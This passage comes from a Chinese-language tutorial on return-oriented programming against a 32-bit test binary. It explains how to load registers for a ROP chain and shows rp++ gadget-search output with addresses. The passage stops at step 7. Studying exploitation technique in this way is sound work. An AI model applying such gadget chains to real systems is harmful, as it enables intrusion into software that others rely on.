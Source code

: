 同样确保 EAX 不要在`_fini`的返回处（`0x8048635`）和返回指令（`0x80485d0`）之间修改。这可以通过设置`edi = esi + 1`来实现。如果设置了`edi = esi + 1`，跳转指令`0x80485c7`就会确保控制流跳转到`0x80485c9`的指令。之后我们可以看到，`0x80485c9`指令到返回指令（`0x80485d0`）之间，EAX 都不会改动。

零件 5：将 EBX 加载为`0x3fc9c18`：

```
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 1
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..

Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.

in LOAD
65 found.

A total of 65 gadgets found.
...
0x08048618: popl %ebp ; ret ; (1 found)
0x08048380: popl %ebx ; ret ; (1 found)
0x08048634: popl %ebx ; ret ; (1 found)
...
$
```

零件 6：将 ESI 加载为`0x01020101`，EDI 加载为`0x01020102`:

```
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 3
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..

Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.

in LOAD
135 found.

A total of 135 gadgets found.
...
0x080485ce: popl %edi ; popl %ebp ; ret ; (1 found)
0x080485cd: popl %esi ; popl %edi ; popl %ebp ; ret ; (1 found)
0x08048390: pushl 0x08049FF8 ; jmpl *0x08049FFC ; (1 found)
...
$
```

零件 7：将`0x1`复制到内存地址`0x804a028`：
